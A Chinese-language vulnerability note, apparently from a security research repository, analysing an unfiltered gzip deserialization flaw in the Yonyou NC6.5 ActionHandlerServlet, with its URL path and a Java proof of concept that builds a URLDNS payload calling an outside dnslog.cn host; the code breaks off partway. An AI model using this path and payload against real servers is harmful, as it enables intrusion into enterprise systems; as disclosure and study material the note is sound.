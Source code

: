 # ActionHandlerServlet_Gzip 反序列化

# 0x01 路径

```bash
# URL
/servlet/~aert/com.ufida.zior.console.ActionHandlerServlet

# 物理路径
NC65_Server_home/modules/aert/lib/pubaert_commonLevel-1.jar!/com/ufida/zior/console/ActionHandlerServlet.class
```

# 0x02 漏洞分析
省去在 [用友NC6.5_环境搭建及路由分析](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/%E7%94%A8%E5%8F%8B/%E7%94%A8%E5%8F%8BNC65/%E7%94%A8%E5%8F%8BNC6.5_%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%8F%8A%E8%B7%AF%E7%94%B1%E5%88%86%E6%9E%90.md#0x03-%E8%B7%AF%E7%94%B1%E5%88%86%E6%9E%90) 中提到的路由解析部分，

进入到 `ActionHandlerServlet.class` 后，不管是 `doPost` 还是 `doGet` 方法，都会调用到 `process` 方法：

![image](https://user-images.githubusercontent.com/84888757/227792401-7afb06ce-1a36-4ca3-a075-d65443aa9541.png)


在 `process` 方法中，对收到的数据先进行 `gzip` 解压然后反序列化，不存在过滤操作，故存在反序列化漏洞。

![image](https://user-images.githubusercontent.com/84888757/227792448-3afa39ac-d851-4e55-8c8d-d45b5170e80c.png)

# 0x03 漏洞验证
使用 `URLDNS` 验证。

生成序列化数据 `1.ser` ，并且 `gzip` 压缩，输出文件 `1.ser.gz`

📒 `ActionHandlerServletGzipPoc.java`
```java
package org.vulhub.nc65;

import java.io.FileOutputStream;
import java.util.zip.GZIPOutputStream;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;


public class ActionHandlerServletGzipPoc {
    public static void main(String[] args) throws Exception {
        HashMap hashMap = new HashMap();
        URL url = new URL("http://123.3pi22q.dnslog.cn");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, 0);
        hashMap.put(url, "111");
        f.set(url, -1);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("1.ser"));
        oos.writeObject(hashMap);
        oos.close();

        FileInputStream inputFromFile = new FileInputStream("1.ser");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
```